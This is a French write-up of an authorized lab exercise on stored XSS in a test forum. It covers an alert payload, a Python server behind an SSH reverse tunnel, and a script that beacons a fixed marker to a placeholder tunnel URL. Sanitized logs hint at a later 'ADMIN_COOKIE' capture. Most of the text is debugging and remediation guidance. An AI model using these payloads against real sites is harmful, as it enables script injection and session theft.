

# Stored XSS — forum de test

> **Laboratoire autorisé.** Cette étude décrit un exercice pédagogique sur un forum de test. Le nom exact de l'épreuve, son URL, les données de session et les éléments de validation sont omis. Les exemples publics utilisent uniquement des marqueurs fictifs. Ils ne doivent être reproduits que dans une application locale ou un laboratoire explicitement autorisé.

Ce document s'appuie sur mon compte rendu d'analyse. Les captures historiques ne sont pas disponibles dans ce dossier : leurs emplacements sont indiqués sans fabriquer d'images. Les explications générales et les recommandations sont distinguées des observations rapportées. La préparation de ce write-up ne constitue pas un nouveau test du service.

## 1. Résumé

J'ai étudié un mini-forum dont le champ `Message` enregistrait du contenu ensuite interprété comme JavaScript lors de l'affichage. Une alerte portant le marqueur `XSS_OK` a montré l'exécution dans mon navigateur. La répétition des alertes après de nouvelles visites a mis en évidence la persistance du contenu.

J'ai ensuite utilisé un serveur HTTP Python et un tunnel SSH pour vérifier la réception d'un **marqueur non sensible**. Une réponse `404` n'a pas empêché la réception : le journal du serveur montrait bien la requête. Des erreurs `502` concernaient au contraire la disponibilité du tunnel.

Des traces ultérieures décrites dans mon compte rendu étaient compatibles avec la consultation par un lecteur automatisé disposant d'un contexte différent. Elles ne prouvaient pas à elles seules son identité. Aucune valeur de cookie, procédure d'usurpation de session ou solution de validation n'est publiée ici.

## 2. Compétences et outils

| Outil ou notion | Utilisation rapportée | Ce que cela m'a appris |
| --- | --- | --- |
| Firefox DevTools | Inspection du DOM et commandes dans la console | Distinguer le contenu affiché, l'origine et les informations accessibles au JavaScript |
| JavaScript | Alerte de démonstration, inspection du contexte et émission d'un marqueur | Relier l'exécution du script aux opérations réellement effectuées |
| Kali Linux | VM accueillant le serveur et les commandes réseau | Séparer application de laboratoire et infrastructure de réception |
| Python 3 | Serveur HTTP intégré sur le port 8000 | Lire une requête dans les journaux sans nécessiter un backend applicatif |
| `curl` | Vérifications locale et publique | Examiner le statut HTTP et distinguer les différents maillons du trajet |
| SSH | Redirection distante du port local | Comprendre un tunnel inverse et sa durée de vie |
| localhost.run | Adresse publique temporaire du tunnel | Distinguer port public HTTPS et port interne |

Les versions exactes ne figurent pas dans le compte rendu. La commande SSH de diagnostic détaillée a été **proposée**, sans résultat d'exécution documenté. Les correctifs présentés plus loin sont des recommandations, pas des changements appliqués au forum.

## 3. Notions nécessaires

### 3.1 Stockage, restitution et exécution

Une **XSS stockée**, ou Stored XSS, apparaît lorsqu'une donnée non fiable est conservée, puis restituée dans une page où le navigateur l'interprète comme du code. Trois phases doivent être séparées :

1. **Stockage** : le formulaire transmet un message et l'application le conserve.
2. **Restitution** : le message est intégré à une page consultée ultérieurement.
3. **Exécution** : le navigateur interprète une partie du contenu comme du JavaScript plutôt que comme du texte.

La confirmation d'enregistrement ne démontre pas à elle seule la XSS. L'alerte lors de la restitution apporte la preuve d'exécution ; sa répétition après de nouvelles visites étaye la persistance. Le support de stockage exact, sa structure et la technologie du serveur n'ont pas été identifiés.

| Catégorie | Caractéristique | Point de distinction |
| --- | --- | --- |
| Stored XSS | L'entrée est conservée puis restituée | Le déclenchement peut concerner une visite ultérieure |
| Reflected XSS | L'entrée est renvoyée dans une réponse liée à une requête | La persistance n'est pas nécessaire |
| DOM-based XSS | Le traitement côté navigateur fait parvenir une donnée non fiable à un point d'insertion dangereux | Décrit le mécanisme côté client ; peut se combiner avec des données stockées |

La persistance et le mécanisme DOM ne sont donc pas deux catégories toujours exclusives. Voir la [présentation de la XSS par MDN](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS).

### 3.2 Origine et contexte de session

Une origine web correspond au triplet **schéma, hôte, port**. Une page HTTP et une page HTTPS de même nom d'hôte n'ont pas la même origine. Le JavaScript injecté s'exécute dans le contexte de la page qui l'affiche, sous réserve des protections du navigateur et de l'application.

Le lecteur automatisé utilise son **propre** navigateur, ses cookies et son éventuelle authentification. Il ne récupère pas automatiquement la session du visiteur ayant publié le message. La XSS se déclenche lorsqu'un navigateur affiche la partie vulnérable, pas simplement lorsque quelqu'un se connecte.

### 3.3 Ce que montre `document.cookie`

`document.cookie` ne donne pas accès à tous les cookies existants. Sa lecture concerne les cookies accessibles au JavaScript pour le document courant. Leur portée dépend notamment du domaine, du chemin et de leur disponibilité dans le contexte visité. Les cookies marqués `HttpOnly` sont exclus de cette lecture.

Un résultat ne montrant que des cookies d'analytics ne permet pas de conclure qu'aucun cookie de session n'existe : il peut être `HttpOnly`, hors du chemin applicable, ou absent de ce navigateur tout en étant présent dans un autre. Le `Path` délimite une portée d'envoi ; ce n'est pas une isolation de sécurité fiable entre applications de même origine. Référence : [MDN — `document.cookie`](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie).

## 4. Reconnaissance de l'application

J'ai repéré l'interface **Forum v0.001**, avec les champs `Title` et `Message`, le bouton `send` et la section `Posted messages`. Le texte `Status: visitor` indiquait le statut affiché. Un indicateur `Message read / Your messages have been read` signalait une lecture dans le scénario du laboratoire.

L'inspecteur montrait cet élément :

```html
<span style="text-align: right; float:right;">Status: visitor</span>
```

Le `span` est un élément de présentation. Son texte ne démontre pas comment les autorisations sont contrôlées. Le modifier dans DevTools ne transforme pas une session en session administrateur. De même, l'indicateur de lecture ne fournit pas une preuve indépendante de l'identité ou des privilèges du lecteur.

> 📸 **Capture à ajouter — `images/01-forum-interface.png`.** Cadrer le formulaire, `Posted messages` et le statut. Annoter « surface d'injection ». Masquer le domaine exact, la barre d'adresse et toute information personnelle.

> 📸 **Capture à ajouter — `images/02-html-status.png`.** Cadrer uniquement le `span` dans l'inspecteur. Annoter « rôle affiché ≠ privilèges ». Exclure toute donnée de session.

## 5. Démonstration de l'exécution

Dans le champ `Message` du laboratoire autorisé, j'ai utilisé une démonstration sans donnée sensible :

```html
<script>alert('XSS_OK')</script>
```

Après l'envoi, l'application affichait « message enregistré / content saved ». À l'affichage ou au rechargement, une alerte confirmait l'exécution de JavaScript dans mon navigateur.

| Observation | Conclusion permise | Conclusion non permise |
| --- | --- | --- |
| Confirmation d'enregistrement | L'application annonce avoir enregistré le contenu | Le navigateur a nécessairement exécuté le script |
| Alerte `XSS_OK` | Le script de démonstration s'est exécuté dans ce contexte | Une session privilégiée a été compromise |
| Nouvelle alerte après une nouvelle visite | Le contenu reste restitué et exécutable | Le message est stocké dans une technologie de base de données précise |

Une inspection historique des cookies dans mon navigateur n'affichait que deux cookies d'analytics. Leurs valeurs ne sont pas reproduites. Cette observation était propre à ce contexte de visite.

> 📸 **Capture à ajouter — `images/03-xss-alert.png`.** Utiliser de préférence une capture réelle de l'alerte `XSS_OK`. Si la capture historique affiche des cookies, caviarder intégralement leur contenu et les détails de l'instance ; préciser qu'il s'agit d'une capture assainie.

### Inspection dans la console Firefox

J'ai exécuté ces instructions dans la console de la page du laboratoire :

```javascript
console.log(location.origin);
console.log(document.cookie);
```

La première affichait l'origine HTTP de l'application, volontairement omise ici. La seconde montrait des noms `_ga` et `_ga_...`, avec des valeurs désormais masquées. Une console vide ou un résultat limité aux analytics ne constitue pas une preuve de protection de toutes les autres sessions. Ces commandes inspectent le contexte courant ; elles ne contactent pas mon serveur de réception.

## 6. Persistance et anciens messages

Des alertes issues de messages précédents continuaient à apparaître. J'ai ainsi constaté qu'une nouvelle visite pouvait réexécuter du contenu déjà publié. Ce comportement complique les essais : plusieurs messages actifs peuvent produire plusieurs effets et rendre l'origine d'une observation ambiguë.

Modifier ou supprimer un élément dans le DOM local ne supprime pas sa source enregistrée sur le serveur. Au prochain chargement, l'application peut restituer à nouveau le message. La suppression durable nécessite une fonction de suppression, de modération ou de réinitialisation prévue par le laboratoire. Aucune suppression serveur réussie n'est documentée ici.

Pour une nouvelle maquette, utiliser un seul message portant un marqueur identifiable, puis le retirer avec le mécanisme autorisé avant l'essai suivant. Cela évite de confondre un ancien déclenchement avec un résultat récent. Cette recommandation méthodologique n'est pas une étape supplémentaire prétendument effectuée pendant l'exercice.

## 7. Serveur HTTP et tunnel : commandes détaillées

### 7.1 Préparer un répertoire sur Kali

Dans un premier terminal de la VM Kali, j'ai utilisé :

```bash
mkdir -p ~/script_py/redir_serveur
cd ~/script_py/redir_serveur
python3 -m http.server 8000
```

| Commande ou composant | Rôle | Interprétation d'un problème |
| --- | --- | --- |
| `mkdir -p` | Créer le dossier et les parents manquants ; accepter un dossier existant | Une erreur de permissions concerne le chemin ou les droits locaux |
| `~` | Désigner le dossier personnel de l'utilisateur | Le chemin dépend de l'utilisateur de la VM |
| `cd` | Choisir le répertoire servi par Python | Vérifier l'existence du dossier si la commande échoue |
| `python3` | Lancer l'interpréteur Python 3 | Une commande introuvable indique que l'exécutable manque ou n'est pas dans le `PATH` |
| `-m http.server` | Exécuter le module HTTP intégré | Le terminal reste occupé tant que le serveur fonctionne |
| `8000` | Choisir le port local d'écoute | Un port déjà utilisé peut empêcher le démarrage |

Le compte rendu donne cette sortie de démarrage :

```text
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`0.0.0.0` signifie une écoute sur les interfaces IPv4 disponibles, pas une URL publique attribuée au serveur. Le répertoire de travail doit rester dépourvu de fichiers sensibles : le module peut exposer son contenu. Pour une nouvelle démonstration où seul le tunnel doit le joindre, une écoute explicitement limitée à `127.0.0.1` est une option ; elle n'est pas la commande historique ci-dessus.

Le serveur intégré sert des fichiers et journalise les requêtes. Il **n'exécute pas PHP** : nommer une URL `cookie.php` ne crée pas un collecteur PHP. Aucun script PHP ni backend de collecte n'a été mis en place dans cette description. Ce serveur de démonstration n'est pas un serveur de production. Référence : [documentation Python — `http.server`](https://docs.python.org/3/library/http.server.html).

> 📸 **Capture à ajouter — `images/04-http-server.png`.** Montrer la commande Python et la ligne d'écoute. Masquer les noms de machine, chemins personnels et autres terminaux sensibles.

### 7.2 Ouvrir le tunnel dans un second terminal

Avec le serveur toujours actif, j'ai utilisé :

```bash
ssh -R 80:localhost:8000 nokey@localhost.run
```

| Élément | Signification dans cette commande |
| --- | --- |
| `ssh` | Établir la connexion SSH avec le service de tunnel |
| `-R` | Demander une redirection distante vers un service accessible depuis la machine locale |
| `80` | Port demandé côté service de redirection ; ne décrit pas à lui seul le port de l'URL HTTPS |
| `localhost:8000` | Destination atteinte par le client SSH sur la VM Kali |
| `nokey@localhost.run` | Mode d'accès décrit par le service, pas un identifiant d'une victime |

J'ai obtenu une URL temporaire de la forme `https://<identifiant>.lhr.life`. La valeur exacte est supprimée. Le service relie son frontal public à la connexion SSH active ; il ne transforme pas le port local 8000 en port public 8000. Référence : [localhost.run — fonctionnement de base](https://localhost.run/docs/).

Le trajet utilisé pour le marqueur était :

```text
Navigateur du laboratoire
        │ HTTPS, port public 443
        ▼
Frontal public du service de tunnel
        │ Connexion SSH active
        ▼
Client SSH sur Kali
        │ Connexion locale vers localhost:8000
        ▼
Serveur HTTP Python et journal des requêtes
```

Il ne faut pas ajouter `:8000` à l'URL HTTPS publique. Ce port appartient au dernier maillon local. Les terminaux Python et SSH doivent rester actifs pendant le test. Une ancienne adresse n'est pas une preuve de tunnel encore ouvert.

> 📸 **Capture à ajouter — `images/05-ssh-tunnel.png`.** Montrer la commande et la confirmation de redirection. Masquer intégralement l'URL temporaire, les informations de connexion et le QR code éventuel.



*Schéma créé pour ce document, sans données réelles. Il ne constitue ni une capture du laboratoire ni une preuve de l'identité du lecteur.*

### 7.3 Vérifier le serveur local

Dans un troisième terminal Kali, j'ai exécuté :

```bash
curl -i http://127.0.0.1:8000/
ss -lntp | grep 8000
```

`curl` effectue une requête HTTP. `-i` affiche les en-têtes et le corps de réponse. La première commande vérifie le serveur local sans passer par le tunnel : une réponse permet de tester ce maillon indépendamment du DNS public et de SSH. Le statut exact de cette vérification n'est pas consigné dans le brief.

`ss` inspecte les sockets : `-l` retient les sockets en écoute, `-n` affiche les valeurs numériques, `-t` sélectionne TCP et `-p` demande les informations de processus. `grep 8000` filtre les lignes contenant ce nombre ; c'est un filtre pratique, pas une validation structurée du port. Les informations de processus peuvent dépendre des permissions. Une absence de sortie incite à vérifier que Python fonctionne et écoute au bon endroit.

### 7.4 Vérifier l'adresse publique

J'ai aussi utilisé un appel de cette forme, anonymisé :

```bash
curl -i 'https://<URL_PUBLIQUE_DU_TUNNEL>/test?message=bonjour'
```

Le placeholder désigne **uniquement le nom d'hôte**, sans préfixe `https://`, puisque celui-ci figure déjà dans la commande. Pour un essai autorisé, utiliser le nouvel hôte annoncé par le terminal SSH ; ne pas reprendre une adresse historique. Les guillemets simples protègent les caractères de l'URL contre l'interprétation du shell.

Cette commande envoie seulement `bonjour`. Elle vérifie l'ensemble du chemin public ; elle ne démontre pas l'exécution d'une XSS puisqu'elle part de `curl`, pas du navigateur. Si une réponse arrive, la lire avec les logs Python plutôt que se fier uniquement au code HTTP.

## 8. Débogage et erreurs rencontrées

### 8.1 `404` : chemin absent, requête reçue

Le chemin `/test` ne correspondait pas nécessairement à un fichier présent dans le dossier servi. Le serveur Python pouvait donc recevoir la requête, la journaliser, puis répondre `404 Not Found`. Pour l'objectif limité « le marqueur atteint-il mon serveur ? », sa présence dans le journal est pertinente même si aucun fichier n'est renvoyé.

Cela ne signifie pas que toutes les erreurs 404 sont acceptables. Si une application doit fournir une ressource, le fichier absent reste un problème à corriger. Ici, il s'agissait de vérifier une réception, pas de valider une API métier.

### 8.2 `502 Bad Gateway` et `no tunnel`

Le compte rendu mentionne des réponses `502` avec `no tunnel`. Le frontal du service ne retrouvait alors pas l'association active nécessaire pour atteindre le serveur. Ce résultat concerne un maillon en amont ; il ne prouve pas que le JavaScript ou le chemin `/test` est incorrect.

Un VPN scolaire était actif pendant ces erreurs. Dans **cette session**, sa désactivation a résolu le problème. C'est un constat historique, pas une preuve que tout 502 vient d'un VPN. D'autres causes possibles sont une connexion SSH fermée, un hôte temporaire périmé, ou une destination locale indisponible. Le mécanisme réseau exact ayant produit les erreurs n'a pas été établi.

| Symptôme | Vérification utile | Limite de l'interprétation |
| --- | --- | --- |
| Échec de l'appel local | Terminal Python, port et écoute via `ss` | Aucun diagnostic du tunnel n'est encore possible |
| Local accessible, public en `502 no tunnel` | Connexion SSH active et hôte courant | La cause précise nécessite les diagnostics du tunnel |
| Public en `404`, requête visible dans Python | Comparer chemin et marqueur dans le log | Réception prouvée, ressource absente |
| Aucun log après un test navigateur | Vérifier URL, terminal, exécution et éventuel blocage navigateur | Ne pas attribuer automatiquement le problème au lecteur automatisé |
| Plusieurs requêtes ou alertes inattendues | Revoir les anciens messages stockés | Répétition ne signifie pas plusieurs lecteurs distincts |

### 8.3 Variante SSH de diagnostic proposée

Cette variante a été proposée pendant le dépannage ; aucun résultat de son exécution n'est fourni :

```bash
ssh -v -o ServerAliveInterval=30 -o ServerAliveCountMax=3 -R 80:127.0.0.1:8000 nokey@localhost.run
```

`-v` active des diagnostics plus détaillés. `-o` fixe une option SSH. `ServerAliveInterval=30` demande des vérifications de disponibilité sur la connexion chiffrée après une période sans données ; `ServerAliveCountMax=3` limite le nombre de vérifications sans réponse avant abandon. Ces options aident à détecter une connexion interrompue ; elles ne garantissent pas une reconnexion automatique. `127.0.0.1` précise ici la destination IPv4 locale plutôt que de dépendre de la résolution de `localhost`.

Les sorties de diagnostic peuvent contenir des chemins et informations d'environnement : les assainir avant publication. La sémantique des options est documentée dans [OpenSSH — `ssh_config`](https://man.openbsd.org/ssh_config).

## 9. Preuve de communication avec un marqueur fictif

Une fois le trajet réseau vérifié, le test navigateur utilisait uniquement une chaîne publique fixe :

```html
<script>
const marker = 'XSS_OK';
new Image().src =
  'https://<URL_PUBLIQUE_DU_TUNNEL>/test?message=' + encodeURIComponent(marker);
</script>
```

Cet extrait est limité à un marqueur de laboratoire. Il ne lit pas de cookie et ne contient aucune donnée de session. Le placeholder n'est pas une adresse utilisable tel quel.

`new Image()` crée un objet image. Affecter son `src` déclenche une tentative de chargement HTTP, sans nécessité de quitter la page. La réponse n'a pas besoin d'être une image valide pour que le serveur voie la requête. Cette opération ne lit pas de cookies à elle seule. Les cookies que le navigateur pourrait envoyer automatiquement concernent la destination selon les règles applicables, pas une copie automatique des cookies de l'application source. Voir [MDN — constructeur `Image()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/Image).

`encodeURIComponent(marker)` prépare la valeur pour un composant d'URL : par exemple, des espaces ou un `&` ne doivent pas devenir une nouvelle structure de paramètres. Ce n'est ni du chiffrement ni de l'anonymisation. `XSS_OK` reste lisible. Référence : [MDN — `encodeURIComponent`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent).

À l'inverse, **affecter une URL** à `document.location` ou à sa propriété `href` demande une navigation. Lire simplement `document.location` ne navigue pas. Le test par image évite ce changement de page ; il peut néanmoins être bloqué par une CSP, une extension ou une autre règle du navigateur. Une requête d'image inter-origines n'est pas une preuve d'accès à sa réponse ou de contournement de CORS.

### Lecture de la ligne de journal rapportée

```text
127.0.0.1 - - [08/Oct/2026 15:14:55] "GET /test?message=XSS_OK HTTP/1.1" 404 -
```

Cette ligne est fournie par le compte rendu ; elle n'a pas été produite à nouveau pendant la rédaction. L'horodatage est repris tel quel, sans fuseau connu.

| Partie | Interprétation |
| --- | --- |
| `127.0.0.1` | Pair local vu par Python, ici la connexion locale issue du tunnel |
| `GET` | Méthode de récupération déclenchée pour l'image |
| `/test` | Chemin demandé, sans fichier correspondant dans cet exemple |
| `message=XSS_OK` | Marqueur fictif présent dans la query string |
| `HTTP/1.1` | Version indiquée dans la ligne de requête |
| `404` | Statut de réponse du serveur pour cette ressource absente |

La ligne étaye la réception du marqueur au niveau du serveur. `127.0.0.1` n'est **pas** l'IP du navigateur extérieur ni une preuve d'identité du bot. L'adresse du pair local est normale dans ce trajet de tunnel.

> 📸 **Capture à ajouter — `images/06-request-logs.png`.** Montrer les requêtes fictives `bonjour` et `XSS_OK`, puis uniquement les traces historiques assainies si elles sont conservées. Annoter « 404 : chemin absent, requête reçue » et « 200 : réponse servie ». Caviarder toutes les valeurs de cookies, l'URL d'instance et les détails d'identification. Ne jamais laisser apparaître un secret dans une autre ligne du terminal.

## 10. Contexte du lecteur automatisé et limites d'attribution

Le compte rendu décrit, dans une capture ultérieure, deux requêtes associées aux cookies d'analytics du navigateur local, puis une requête comportant un paramètre nommé `ADMIN_COOKIE`. Le seul extrait public retenu est cette représentation assainie :

```text
GET /?c=[COOKIES_ANALYTICS_MASQUÉS] HTTP/1.1 200
GET /?c=ADMIN_COOKIE=[REDACTED] HTTP/1.1 200
```

Ces lignes ne sont pas un relevé brut complet. La première représente la famille des requêtes d'analytics, sans reproduire leurs deux valeurs. L'adresse du pair, les valeurs et les autres détails sensibles sont omis. Aucun secret n'a été importé pour la rédaction.

La différence observée est **compatible** avec la visite automatisée prévue par le scénario, dont le contexte pouvait différer du mien. Mais un nom de paramètre ne prouve ni son origine, ni un rôle administrateur effectif, ni la validité d'un jeton. Un journal de requêtes, seul, n'authentifie pas le navigateur émetteur. Le statut `200` indique une réponse HTTP réussie, pas une authentification réussie.

Le risque général est qu'un script exécuté dans une page puisse accéder à des informations de ce contexte, notamment un cookie de session non `HttpOnly` lorsqu'il est applicable. Les attributs réels des cookies du lecteur n'ont pas été établis dans cette étude publique. Aucune procédure de capture, de décodage ou de réutilisation d'une valeur de session n'est incluse.

## 11. Impact, prérequis et portée de la preuve

Les prérequis de ce scénario sont la possibilité de publier un message, sa restitution à un autre navigateur, et un rendu qui autorise l'interprétation de contenu non fiable comme code. Le marqueur réseau nécessite en plus une destination joignable et l'absence de blocage de ce chargement. L'alerte locale et le contact réseau prouvent des aspects différents.

| Élément | Statut dans cette étude |
| --- | --- |
| Exécution locale de JavaScript lors de la restitution | Rapportée par l'alerte |
| Persistance après publication et nouvelle visite | Rapportée par la réapparition des alertes |
| Réception d'un marqueur non sensible | Rapportée par la ligne Python contenant `XSS_OK` |
| Visibilité des cookies d'analytics dans mon navigateur | Rapportée ; valeurs omises |
| Identité formelle du lecteur ayant émis la trace ultérieure | Non démontrée par les logs seuls |
| Validité d'une session privilégiée ou réutilisation réussie | Non démontrée et non publiée |
| Présence et attributs exacts d'un cookie de session chez le lecteur | Non établis publiquement |
| Code serveur, base de données et point de rendu exact | Non inspectés dans les éléments fournis |

Selon les droits du lecteur et les protections en place, une XSS peut permettre de modifier l'affichage, d'interagir avec des fonctions de l'application au nom de ce navigateur ou d'exposer des données accessibles. Ce sont des risques possibles, pas une liste d'impacts tous réalisés dans l'exercice. Une fuite de cookie n'est pas une condition nécessaire à tout impact d'une XSS. Aucun score de sévérité d'un système réel n'est attribué à ce laboratoire.

## 12. Remédiations

### 12.1 Rendre du texte comme du texte

Exemple pédagogique de point d'insertion DOM, sans prétendre qu'il s'agit du code du forum :

```javascript
// Risqué pour des contenus non fiables.
resultat.innerHTML = commentaire;

// Pour afficher exclusivement du texte.
resultat.textContent = commentaire;
```

`textContent` insère une chaîne comme contenu textuel plutôt que comme structure HTML. C'est adapté à un commentaire qui ne doit pas contenir de mise en forme riche. Voir [MDN — `textContent`](https://developer.mozilla.org/en-US/docs/Web/API/Node/textContent).

Il serait inexact d'affirmer que tout `<script>` affecté à `innerHTML` s'exécute directement : les scripts insérés par cette propriété ne s'exécutent généralement pas ainsi. Cela ne rend pas `innerHTML` sûr avec du contenu non fiable ; d'autres éléments et événements HTML peuvent créer des risques. Le fait que l'alerte ait été observée ne suffit pas à identifier cette propriété comme le point de rendu de l'application. Voir [MDN — `innerHTML`](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML).

### 12.2 Encoder selon le contexte de sortie

| Contexte | Principe défensif |
| --- | --- |
| Texte HTML | Encodage HTML en sortie ou insertion textuelle |
| Attribut HTML | Attribut autorisé, valeur délimitée et encodage adapté |
| JavaScript | Éviter d'insérer directement du contenu utilisateur dans du code |
| URL | Valider destination et schéma ; encoder les composants puis respecter le contexte d'insertion |

Une transformation universelle ou une liste de mots interdits ne couvre pas tous ces contextes. La validation d'entrée aide à imposer le format et la longueur attendus, mais complète la protection à la restitution. Référence : [OWASP — prévention XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

### 12.3 HTML riche : assainissement explicite

Si la fonctionnalité doit accepter du HTML, définir les éléments et attributs autorisés et utiliser une bibliothèque d'assainissement maintenue, comme [DOMPurify](https://github.com/cure53/DOMPurify). Une expression régulière supprimant seulement `<script>` n'est pas une politique suffisante.

L'exemple suivant suppose que la bibliothèque est correctement chargée ; il ne représente pas un correctif testé sur le forum :

```javascript
const htmlAssaini = DOMPurify.sanitize(commentaire, {
  ALLOWED_TAGS: ['p', 'strong', 'em', 'br'],
  ALLOWED_ATTR: []
});
resultat.innerHTML = htmlAssaini;
```

Conserver la bibliothèque à jour et éviter qu'une transformation ultérieure réintroduise du contenu dangereux. La politique doit être testée avec le framework et les navigateurs réellement utilisés.

### 12.4 CSP et défense en profondeur

Une Content Security Policy peut limiter les scripts autorisés et les destinations de chargement. Préférer une politique restrictive adaptée à l'application, avec des scripts autorisés explicitement, plutôt que des autorisations larges de scripts inline. Pour le marqueur par image, la directive `img-src` est pertinente ; `connect-src` ne couvre pas à elle seule un chargement d'image.

Déployer et observer d'abord une politique de rapport lorsque nécessaire, puis la faire respecter après validation fonctionnelle. Une CSP ne remplace ni l'encodage en sortie ni l'assainissement. Aucune CSP du forum n'a été identifiée dans les faits fournis. Référence : [OWASP — CSP](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html).

### 12.5 Cookies

| Attribut | Protection visée | Limite |
| --- | --- | --- |
| `HttpOnly` | Exclure le cookie de l'accès JavaScript via `document.cookie` | Ne supprime pas l'exécution XSS ni toutes les actions effectuées depuis la session |
| `Secure` | Restreindre l'envoi aux connexions sécurisées, selon les règles du navigateur | Ne bloque pas à lui seul une lecture JavaScript |
| `SameSite` | Encadrer l'envoi dans certains contextes inter-sites | Ne prévient pas à lui seul une XSS exécutée dans le site |

Exemple **fictif** d'en-tête de réponse ; la valeur n'est ni un secret ni un jeton utilisable :

```http
Set-Cookie: session_demo=VALEUR_FICTIVE; Path=/; HttpOnly; Secure; SameSite=Lax
```

Le choix de `SameSite` dépend des parcours légitimes. Réduire aussi la portée du cookie au domaine nécessaire. Ces attributs doivent être vérifiés dans les réponses et les outils de stockage du navigateur, pas déduits d'un nom de cookie. Référence : [MDN — `Set-Cookie`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie).

### 12.6 Non-régression et contenu déjà enregistré

Après correction, tester l'affichage de texte contenant des chevrons, guillemets, esperluettes et caractères Unicode. Vérifier que le rendu reste textuel dans tous les écrans concernés. Si du HTML riche est autorisé, contrôler la politique d'assainissement et les fonctionnalités légitimes conservées.

Tester les anciennes entrées stockées, pas seulement les nouveaux formulaires. Corriger l'entrée ne rend pas automatiquement inoffensif un contenu déjà présent. Sur une maquette autorisée, une visite ultérieure d'un message de démonstration doit cesser de provoquer l'alerte ou le contact réseau après remédiation. Aucun de ces tests de correction n'a été effectué sur le service pendant la préparation du document.

## 13. Leçons apprises et glossaire

J'ai appris à séparer l'enregistrement d'un message, son rendu et l'exécution du script. Le statut visible dans le DOM ne constitue pas une preuve de privilèges. Les cookies accessibles dans mon navigateur ne décrivent pas forcément ceux d'un lecteur automatisé.

Le dépannage m'a aussi obligé à distinguer le serveur local, le tunnel SSH et l'URL publique. Une erreur 404 peut accompagner une réception réussie, tandis qu'une erreur 502 indique un problème sur le trajet intermédiaire. Le changement de VPN a aidé dans ma session, mais ne remplace pas une analyse de chaque maillon.

Enfin, j'ai retenu que les anciennes entrées persistent et perturbent les nouveaux essais. Un marqueur fictif suffit à expliquer une communication réseau sans exposer une session. La restitution des preuves doit conserver ces distinctions plutôt que transformer une hypothèse d'attribution en certitude.

| Terme | Définition dans cette étude |
| --- | --- |
| DOM | Représentation de la page manipulable par le navigateur |
| Origine | Schéma, hôte et port d'une ressource web |
| Session | Contexte d'interaction d'un client avec une application |
| Cookie | Donnée associée à une portée web et soumise aux règles du navigateur |
| Query string | Partie de l'URL après `?`, contenant ici un marqueur fictif |
| Point d'insertion | Opération qui transforme une donnée en texte, HTML ou autre contenu |
| Tunnel inverse | Redirection depuis un service distant vers un service joignable par le client SSH |
| Loopback | Interface locale ; `127.0.0.1` désigne ici la machine qui effectue la connexion |
| CSP | Politique du navigateur encadrant l'utilisation de certaines ressources |
| Caviardage | Suppression irréversible d'une information sensible dans une copie de publication |

### Références complémentaires

- [MDN — origine et politique de même origine](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [MDN — `Document.location`](https://developer.mozilla.org/en-US/docs/Web/API/Document/location)
- [curl — manuel des options](https://curl.se/docs/manpage.html)
- [OpenSSH — commande `ssh`](https://man.openbsd.org/ssh)
- [Plan des captures et consignes d'assainissement](images/README.md)

## 14. Checklist de reproduction avec données fictives

Cette checklist concerne une maquette locale ou un laboratoire autorisé et neuf. Elle ne demande ni lecture de session privilégiée ni réutilisation d'un secret.

- [ ] Définir le périmètre et choisir un marqueur public tel que `XSS_OK`.
- [ ] Vérifier qu'aucun ancien message ne fausse l'observation ; utiliser la réinitialisation prévue si elle existe.
- [ ] Documenter l'interface et le statut affiché sans les assimiler à des autorisations.
- [ ] Tester l'alerte de démonstration puis une nouvelle visite, en notant séparément exécution et persistance.
- [ ] Préparer un dossier sans fichiers sensibles et lancer le serveur de démonstration.
- [ ] Vérifier le serveur local, puis ouvrir le tunnel dans un autre terminal.
- [ ] Utiliser exclusivement l'adresse temporaire de la session courante, avec HTTPS sur son port public.
- [ ] Envoyer `bonjour` avec `curl`, puis le marqueur fixe depuis la maquette.
- [ ] Vérifier chemin et marqueur dans les logs ; distinguer réception, statut et attribution.
- [ ] Ne pas transférer de cookie, jeton, donnée personnelle ou contenu de session.
- [ ] Arrêter Python et SSH avec Ctrl+C après l'essai et supprimer le message via le mécanisme autorisé.
- [ ] Assainir captures et journaux avant toute publication.
- [ ] Sur la maquette corrigée, vérifier les anciennes et nouvelles entrées et les usages légitimes.

## 15. Récapitulatif de validation de la maquette

| Ce qui est rapporté dans le parcours | Ce qui reste limité ou non démontré |
| --- | --- |
| Alerte locale lors de l'affichage | Aucune attribution automatique à une session privilégiée |
| Réexécution lors de nouvelles visites | Stockage interne et code serveur non inspectés |
| Log contenant le marqueur fixe | Identité du navigateur non prouvée par l'adresse locale du tunnel |
| Différence de contexte compatible avec le lecteur prévu | Valeur, validité et réutilisation d'une session non publiées |
| Erreurs réseau comprises par maillon | Cause universelle des 502 non établie |

La démonstration documentée établit un comportement de XSS stockée dans le laboratoire et une réception de marqueur non sensible. La validation officielle d'une épreuve n'est pas revendiquée. Les captures historiques restent à ajouter après assainissement ; les recommandations de correction restent à tester sur une maquette autorisée.
